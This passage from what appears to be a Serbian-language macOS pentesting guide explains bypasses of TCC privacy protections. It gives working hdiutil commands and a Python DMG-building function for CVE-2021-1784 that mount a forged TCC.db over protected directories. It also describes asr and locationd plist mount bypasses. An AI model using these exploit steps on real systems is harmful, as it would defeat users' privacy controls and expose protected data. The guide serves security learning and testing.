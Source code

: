 Čak i ako je TCC DB fajl zaštićen, bilo je moguće **montirati preko direktorijuma** novi TCC.db fajl:

```bash
# CVE-2021-1784
## Mount over Library/Application\ Support/com.apple.TCC
hdiutil attach -owners off -mountpoint Library/Application\ Support/com.apple.TCC test.dmg

# CVE-2021-1784
## Mount over ~/Library
hdiutil attach -readonly -owners off -mountpoint ~/Library /tmp/tmp.dmg
```

```python
# This was the python function to create the dmg
def create_dmg():
os.system("hdiutil create /tmp/tmp.dmg -size 2m -ov -volname \"tccbypass\" -fs APFS 1>/dev/null")
os.system("mkdir /tmp/mnt")
os.system("hdiutil attach -owners off -mountpoint /tmp/mnt /tmp/tmp.dmg 1>/dev/null")
os.system("mkdir -p /tmp/mnt/Application\ Support/com.apple.TCC/")
os.system("cp /tmp/TCC.db /tmp/mnt/Application\ Support/com.apple.TCC/TCC.db")
os.system("hdiutil detach /tmp/mnt 1>/dev/null")
```

Proverite **potpunu eksploataciju** u [**originalnom writeup-u**](https://theevilbit.github.io/posts/cve-2021-30808/).

### asr

Alat **`/usr/sbin/asr`** omogućavao je kopiranje celog diska i montiranje na drugom mestu zaobilazeći TCC zaštite.

### Lokacijske usluge

Postoji treća TCC baza podataka u **`/var/db/locationd/clients.plist`** koja označava klijente koji su dozvoljeni da **pristupe lokacijskim uslugama**.\
Folder **`/var/db/locationd/` nije bio zaštićen od montiranja DMG-a** pa je bilo moguće montirati naš plist.

## Preko aplikacija koje se pokreću pri pokretanju sistema

{% content-ref url="../../../../macos-auto-start-locations.md" %}
[macos-auto-start-locations.md](../../../../macos-auto-start-locations.md)
{% endcontent-ref %}

## Preko grep komande

U nekoliko situacija, fajlovi će čuvati osetljive informacije poput email adresa, brojeva telefona, poruka... na nezaštićenim lokacijama (što se smatra ranjivošću u Apple-u).
